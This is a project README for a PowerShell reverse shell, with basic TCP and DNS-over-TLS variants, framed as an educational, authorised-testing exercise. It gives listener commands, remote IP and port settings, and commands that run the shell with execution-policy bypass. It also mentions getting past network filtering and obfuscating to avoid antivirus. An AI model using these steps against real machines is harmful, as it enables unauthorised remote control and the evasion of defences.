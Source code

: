 # PowerShell Reverse Shell

This project is a learning exercise inspired by [Martin Sohn's PowerShell Reverse Shell](https://github.com/martinsohn/PowerShell-reverse-shell). It demonstrates two variations of a reverse shell implemented in PowerShell:

1. A **basic reverse shell**.
2. An **advanced reverse shell** utilizing DNS-over-TLS (DoT) for a more secure connection with the server.

## Disclaimer

**Warning:** This project is strictly for educational purposes. Unauthorized use against systems without explicit permission is illegal and unethical. Always obtain proper authorization before deploying this tool.

## Features

### Basic Reverse Shell

- Establishes a reverse TCP connection to a specified IP and port.
- Executes commands from the remote server and returns output.

### Secure Reverse Shell (DNS-over-TLS)

- Utilizes DNS-over-TLS (DoT) for a more secure communication channel.
- Hides traffic in DNS queries to bypass some network-level filtering.

## Requirements

- **Operating System:** Windows with PowerShell installed.
- **Network:** Ability to connect to the remote server.
- For the DNS-over-TLS version:
  - DNS server configured for DoT communication.

## Usage

### Basic Reverse Shell

1. **Set Up the Listener on the Remote Server:**

   - Use a tool like Netcat to listen for incoming connections:

     ```bash
     nc -lvnp [PORT]
     ```

   - Replace `[PORT]` with the port number you intend to use.

2. **Configure the Script:**

   - Set the `$remoteIP` and `$remotePort` variables in the script:

     ```powershell
     $remoteIP = "[REMOTE_IP]"
     $remotePort = [PORT]
     ```

   - Replace `[REMOTE_IP]` and `[PORT]` with the appropriate values.

3. **Execute the Script:**

   - Run the PowerShell script:

     ```powershell
     powershell.exe -ExecutionPolicy Bypass -File .\powershell-reverseshell.ps1
     ```

### Secure Reverse Shell (DNS-over-TLS)

1. **Set Up a Secure Listener:**

   - Use Ncat (from the Nmap suite) to listen for incoming SSL connections (You can also use netcat which has an unmodifiable buffer of 4096 bytes):

     ```bash
     ncat --ssl -lnvp [PORT_NUMBER]
     ```

   - Replace `[PORT_NUMBER]` with the port number you intend to use.

2. **Execute the Script:**

   - Run the secure reverse shell:

     ```powershell
     powershell.exe -ExecutionPolicy Bypass -File .\powershell-reverseshell-dns-tls.ps1
     ```

## Security Considerations

- **Antivirus Detection:** Both scripts may trigger antivirus software. Adjustments or obfuscations might be necessary for testing in controlled environments.
- **Ethical Use:** Deploy these tools only on systems where you have explicit permission for penetration testing.

## Acknowledgments

This project is inspired by [Martin Sohn's PowerShell Reverse Shell](https://github.com/martinsohn/PowerShell-reverse-shell). Special thanks to the original creator for providing a solid foundation.

## License

This project is licensed under the [GPL-3.0 License](LICENSE).
